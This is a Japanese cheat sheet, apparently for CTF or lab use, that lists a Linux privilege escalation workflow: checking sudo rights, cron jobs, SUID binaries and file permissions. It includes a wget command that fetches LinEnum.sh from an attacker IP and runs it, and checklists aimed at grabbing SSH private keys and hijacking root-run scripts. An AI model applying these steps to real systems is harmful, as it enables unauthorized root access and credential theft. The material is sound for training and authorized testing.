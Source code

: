 # Linux Privilege Escalation Flow

## 実行フロー
1. sudo -l の実行
2. LinEnum の実行
3. ホームディレクトリの確認
4. Cron の確認
5. SUID / SGID の確認
6. Bash のバージョン確認
7. Sudo のバージョン確認
8. 機密ファイルのパーミッション確認


## 1. sudo -l の実行
### root 権限で実行可能なコマンドが存在する場合
[GTFOBins](https://gtfobins.github.io/) で検索

### ユーザー環境から継承された環境変数が存在する場合
- LD_PRELOAD が存在する : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_preload-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)  
- LD_LIBRARY_PATH が存在する : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

## 2. LinEnum の実行
```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh; /tmp/LinEnum.sh
```

## 3. ホームディレクトリの確認
- [ ] 他のユーザーは存在するか
- [ ] ディレクトリにアクセスできるか
- [ ] SSH 秘密鍵は取得できるか
- [ ] 手がかりとなるファイルは存在するか
- [ ] フラグとなるファイルは存在するか

## 4. Cron の確認
- [ ] Crontab に怪しいファイルは存在するか
- [ ] 指定方法はスクリプト名 or 絶対パス
- [ ] スクリプトは root 権限で実行されるか
- [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか）
- [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか）
- [ ] 内部で実行されているプログラム（コマンド）の指定方法はスクリプト名 or 絶対パス

存在する場合...
### 4-1. 指定方法がスクリプト名（絶対パスでない）の場合
環境変数 PATHの追加は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0-path)

### 4-2. 指定方法が絶対パスの場合
#### スクリプトの置き換え / 書き換え
- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

#### スクリプト内容の確認
・シェルスクリプトの場合
```
cat [FILE]
```

・バイナリファイルの場合  
実行されているプログラム（コマンド）の確認
```
strings [FILE]
```

指定方法がコマンド名（絶対パスでない）の場合 : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0)

指定方法が絶対パスの場合
- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

※ 内部でワイルドカードが利用されている場合：[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E3%83%AF%E3%82%A4%E3%83%AB%E3%83%89%E3%82%AB%E3%83%BC%E3%83%891)

#### 読み込まれている共有ライブラリの確認
・環境変数 LD_LIBRARY_PATH が利用できる場合 : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

・環境変数 LD_LIBRARY_PATH が利用できない場合: [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8)  
読み込みエラーになっている共有ライブラリのうち、ディレクトリ、ファイルのいずれかに書き込み権限がないか確認。

- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

## 5. SUID / SGID の確認
- [ ] 既存の脆弱性（Exim <= 4.84-3 など）は存在するか
- [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか）
- [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか）
- [ ] 内部で実行されているプログラム（コマンド）の指定方法はスクリプト名 or 絶対パス

大部分は「4. Cron の確認」の「4-2. 指定方法が絶対パスの場合」を参照。

<!-- ・ディレクトリ、ファイルに書き込み権限がある場合  
共有オブジェクトの利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8)

・内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合  
環境変数の利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0) -->

<!-- <dl>
  <dt>ディレクトリ、ファイルに書き込み権限がある場合</dt>
  <dd>共有オブジェクトの利用は<a href="https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8">こちら</a></dd>
  <dt>内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合</dt>
  <dd>環境変数の利用は<a href="https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0">こちら</a></dd>
</dl> 
-->

## 6. Bash のバージョン確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E3%82%B7%E3%82%A7%E3%83%AB%E3%81%AE%E4%BB%95%E6%A7%98-1)

## 7. Sudo のバージョン確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E3%83%90%E3%83%BC%E3%82%B8%E3%83%A7%E3%83%B3%E3%82%92%E7%A2%BA%E8%AA%8D)

## 8. 機密ファイルのパーミッション確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E6%A9%9F%E5%AF%86%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%81%AE%E3%83%91%E3%83%BC%E3%83%9F%E3%83%83%E3%82%B7%E3%83%A7%E3%83%B3%E7%A2%BA%E8%AA%8D)

